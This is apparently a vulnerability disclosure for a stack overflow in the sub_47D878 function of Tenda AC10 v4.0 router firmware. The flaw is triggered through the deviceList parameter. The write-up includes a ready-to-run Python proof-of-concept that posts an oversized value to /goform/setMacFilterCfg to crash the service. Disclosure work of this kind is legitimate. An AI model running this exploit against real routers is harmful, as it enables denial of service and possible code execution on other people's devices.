

# Tenda Router Vulnerability on sub_47D878 function

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13 
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.13 were discovered to contain a stack overflow via the `src` parameter in the `sub_47D878` function.

## Vulnerability Details

In function  `sub_47D878`  line 8, `src` reads from the caller function `formSetMacFilterCfg` in a user-provided parameter  `deviceList`, and the variable is passed to the function `strcpy` in line 28、29 without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.



## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```
import requests

ip = '192.168.0.1'
headers = {
    'Host': ip,
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}

deviceList = '1'*1000 + "\r10:11:11:11:11:22"
data = 'macFilterType=black&deviceList='+ deviceList


response = requests.post(
    f'http://{ip}/goform/setMacFilterCfg',
    headers=headers,
    data=data,
    verify=False,
)

```

